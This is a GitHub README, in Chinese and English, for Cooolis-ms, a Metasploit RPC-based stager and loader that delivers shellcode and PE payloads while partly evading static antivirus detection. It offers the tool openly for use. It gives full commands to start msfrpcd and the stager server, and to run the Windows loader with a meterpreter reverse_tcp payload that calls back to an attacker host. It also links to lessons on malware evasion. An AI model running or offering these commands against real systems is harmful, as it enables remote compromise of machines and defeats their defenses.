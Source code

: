 # Cooolis-ms

![README](./Pic/view-1.png)

Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。


Cooolis-ms is a server that supports the Metasploit Framework RPC. It is used to work with the Shellcode and PE loader. To some extent, it bypasses the static killing of anti-virus software, and allows the Cooolis-ms server to communicate with the Metasploit server. Separation.

## 该项目的优点

- 体积小（>=100KB）
- 支持Metasploit所有Payload
- ~支持Windows XP + / Windows 2003 +~
- 参数设置方便
- 单文件
- 分离的

## 你可以参考这里，写出自己的好项目

- [静态恶意代码逃逸（第一课）](https://payloads.online/archivers/2019-11-10/1)
- [静态恶意代码逃逸（第二课）](https://payloads.online/archivers/2019-11-10/2)
- [静态恶意代码逃逸（第三课）](https://payloads.online/archivers/2019-11-10/3)
- [静态恶意代码逃逸（第四课）](https://payloads.online/archivers/2019-11-10/4)
- [静态恶意代码逃逸（第五课）](https://payloads.online/archivers/2019-11-10/5)


## How to install | 如何安装

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## How to use |  如何使用

你需要先启动Metasploit RPC服务端：

You need to start the Metasploit RPC server first:

IP : 172.16.143.1

```
$ msfrpcd -U msf -P msf -u /api/1.0/
```

接着需要启动Cooolis-ms，使得它连接到RPC，并且监听一个端口，用来发送载荷：

Then you need to start Cooolis-ms so that it connects to the RPC and listens on a port to send the payload:

IP : 172.16.143.1

```
$ python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 8899 -S 172.16.143.1
```

IP : 172.16.143.2

```
Windows > Coolis-ms.exe -p windows/meterpreter/reverse_tcp -s LHOST=172.16.143.1,LPORT=8876 -H 172.16.143.1 -P 8899
```

- [How to support meterpreter/reverse_tcp_rc4?](https://github.com/Rvn0xsy/Cooolis-ms/issues/6)

## Cooolis-ms server

```
usage: Cooolis-ms [-h] -U USERNAME -P PASSWORD [-H HOST] [-p PORT] [-S SERVER]
                  [-l LISTEN] [-u URI] [-t {exe,ruby,c,dll,vbs,powershell}]
                  [-s] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -U USERNAME, --username USERNAME
                        Metasploit web service username
  -P PASSWORD, --password PASSWORD
                        Metasploit web service password
  -H HOST, --host HOST  Metasploit web service host, Default: localhost
  -p PORT, --port PORT  Metasploit RPC service port, Default: 55553
  -S SERVER, --server SERVER
                        Payload sender listen host, Default: localhost
  -l LISTEN, --listen LISTEN
                        Payload listen port, Default: 1111
  -u URI, --uri URI     Metasploit RPC service uri, Default: /api/1.0/
  -t {exe,ruby,c,dll,vbs,powershell}, --type {exe,ruby,c,dll,vbs,powershell}
                        Payload Type
  -s, --ssl             Enable ssl, Default: True
  -v, --versobe         Enable debug
```

## Cooolis-ms Loader


```
[*]Usage : Cooolis-ms.exe -p [PAYLOAD] -s [PAYLOAD OPTIONS] -H [Stager Host] -P [Stager Port]
         -p [PAYLOAD]    MSF PAYLOAD TYPE
         -s [PAYLOAD OPTIONS]    MSF PAYLOAD OPTIONS
         -H [Stager Host]        Cooolis-Server Host
         -P [Stager Port]        Cooolis-Server Port
[*]Example : Cooolis-ms.exe -p windows/meterpreter/reverse_tcp -s LHOST=192.168.1.1,LPORT=1122 -H 192.168.2.1 -P 4444
```

## About other | 关于其他

~~后续我将会写出Windows平台下的通用加载器客户端集合到这个项目中。~~


~~Subsequent I will write a collection of generic loader clients for the Windows platform into this project.~~

如果你觉得这个项目不错，那就给一个Star～

If you think this project is good, give a Star.

## issue

[I have a question](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
